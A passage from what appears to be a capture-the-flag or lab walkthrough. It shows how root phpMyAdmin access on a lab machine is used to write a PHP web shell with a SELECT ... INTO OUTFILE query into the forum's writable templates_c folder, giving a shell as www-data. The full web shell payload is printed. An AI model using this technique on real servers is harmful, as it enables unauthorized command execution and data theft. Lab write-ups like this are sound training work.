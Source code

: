 So we can suppose we can use those credentials to get access to the phpmyadmin database as root.

---

## Step 5 - Phpmyadmin

We log on the https://192.168.1.76/phpmyadmin page with those credentials, and we get access to the database as root.

After searching for a bit, we can see that there is a feature that allows us to run SQL queries in the SQL section of the databases.

On there : https://github.com/nullbind/Other-Projects/blob/master/random/phpMyAdminWebShell.sql , we found this query that allows us to open a shell in the browser:
```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/payload.php'
```

But if we try to execute it, we get an error specifying us that we don't have the rights to create/write on this file. 

So we need to find a file or folder where we have the write/create rights. When we look at the dirb results earlier, we have a list of potential folders where we could have those rights.

When we look at the admin update page in the forum (after giving lmezard the admin rights on the BDD), or when we read the installation process of mylittleforum on github (https://github.com/ilosuna/mylittleforum), we can see that the folder **templates_c** is supposed to have these rights:

```
the write permissions of the subdirectory templates_c (CHMOD 770, 775 or 777) 
```

We see it on the dirb results too, so we use it in our query:

```SQL
SELECT [...]
INTO OUTFILE '/var/www/forum/templates_c/payload.php'
```

The SQL query works, and when we go at the address https://192.168.1.76/forum/templates_c/payload, we can see that it opens an interactive shell.

---

## Step 6 - User www-data

In the interactive shell, we can see that **we are the user www-data**, and when we list the files in the **/home** folder, we see a folder named **LOOKATME** owned by the www-data user.

```
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
```

There is a file named **password** in this folder, which holds:
